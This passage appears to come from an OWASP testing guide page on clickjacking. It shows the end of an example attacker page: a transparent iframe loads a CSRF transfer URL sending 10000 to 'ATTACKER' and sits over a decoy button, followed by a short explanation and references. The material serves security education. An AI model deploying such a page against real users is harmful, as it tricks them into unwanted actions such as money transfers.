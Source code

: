                     position: absolute; 
                    left: 172px; 
                    top: 60px; 
                    filter: alpha(opacity=0); 
                    opacity:0.0
                } 
            //--></style>
            
        </head>
        <body>
            <div id="content">
                <h1>www.owasp.com</h1>
                <form action="http://www.owasp.com">
                    <input type="submit" class="button" value="Click and go!">
                </form>
            </div>

                    <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                    </iframe>
        </body>
    </html>

With the help of CSS (note the \#clickjacking block) we can mask and suitably position the iframe in such a way as to match the buttons. If the victim click on the button “Click and go!” the form is submitted and the transfer is completed.

![](clickjacking_example_malicious_page_3.png "clickjacking_example_malicious_page_3.png"){width="400"}

The example presented uses only basic clickjacking technique, but with advanced technique is possible to force user filling form with values defined by the attacker.

Tools
-----

-   Context Information Security: “Clickjacking Tool” - <http://www.contextis.com/research/tools/clickjacking-tool/>

References
----------

**OWASP Resources**

-   [Clickjacking](Clickjacking "wikilink")

**Whitepapers**

-   Marcus Niemietz: “UI Redressing: Attacks and Countermeasures Revisited” - <http://ui-redressing.mniemietz.de/uiRedressing.pdf>
-   “Clickjacking” - <https://en.wikipedia.org/wiki/Clickjacking>
-   Gustav Rydstedt, Elie Bursztein, Dan Boneh, and Collin Jackson: “Busting Frame Busting: a Study of Clickjacking Vulnerabilities on Popular Sites” - <http://seclab.stanford.edu/websec/framebusting/framebust.pdf>
-   Paul Stone: “Next generation clickjacking” - <https://media.blackhat.com/bh-eu-10/presentations/Stone/BlackHat-EU-2010-Stone-Next-Generation-Clickjacking-slides.pdf>


